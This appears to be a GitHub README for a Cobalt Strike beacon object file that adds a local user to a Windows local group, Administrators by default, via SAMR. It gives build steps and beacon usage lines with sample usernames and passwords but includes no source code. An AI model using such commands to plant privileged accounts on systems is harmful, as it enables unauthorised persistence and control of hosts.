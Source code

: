# adduserbysamr-bof

Cobalt Strike BOF that Add a user to localgroup by samr.

## Build

```sh
git clone https://github.com/AgeloVito/adduserbysamr-bof.git
```

```sh 
make
```


**And load adduserbysamr.cna**


## Usage

```
beacon> help adduserbysamr
Use: adduserbysamr [username] [password] [groupName]
e.g: adduserbysamr sysadmin p@ssw0rd
     adduserbysamr sysadmin p@ssw0rd Administrators
     adduserbysamr sysadmin p@ssw0rd "Remote Desktop Users"

Add a user to localgroup by samr, groupName is "Administrators" by default, do not use it at AD.
```

<img width="1159" alt="image" src="https://user-images.githubusercontent.com/9564171/204729530-da9e2f25-a65a-4d16-a7d7-c7026c1d88ef.png">

<img width="1378" alt="image" src="https://user-images.githubusercontent.com/9564171/204736655-52747dae-18f7-407b-ae27-e499b6a89cb6.png">


## refence

https://loong716.top/posts/MS_SAMR_Tips/

https://learn.microsoft.com/zh-cn/windows/win32/secmgmt/built-in-and-account-domains

